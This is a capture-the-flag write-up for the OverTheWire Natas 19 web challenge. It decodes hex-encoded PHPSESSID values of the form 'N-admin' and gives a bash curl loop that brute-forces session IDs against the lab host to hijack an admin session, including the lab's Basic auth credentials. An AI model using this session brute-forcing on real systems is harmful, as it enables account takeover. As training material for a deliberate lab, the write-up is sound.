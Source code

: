 Looks like there is a fixed value and a variable value in the PHPSESSID

```text
XX     + 2d61646d696e
XXXX   + 2d61646d696e
XXXXXX + 2d61646d696e
```

The unfixed value is always 2 4 or 6 chars long. ASCII in HEX is 2 chars log. Let check that.

```text
~# xxd -ps -r phpsessionid.hex  phpsessionid.txt
~# cat phpsessionid.txt
1-admin
3-admin
4-admin
...
637-admin
638-admin
639-admin
640-admin
```

So we have a random number between 1 and 640 again, only with -admin added.  
Lets first just try admin \(61646d696e\) if that doenst work, lets brute force it.

nope

```bash
SessionCookie="PHPSESSID=61646d696e"
curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')

echo $curl_output
 </html> logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>al...</head>thewire.org/js/wechall.js"></script>
```

Script

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    CurrentIDHEX=$(echo -n "$CurrentID-admin" | xxd -p)
    SessionCookie="PHPSESSID=$CurrentIDHEX"
    curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "$(echo $curl_output | grep Password)"
        break
    fi
done
```
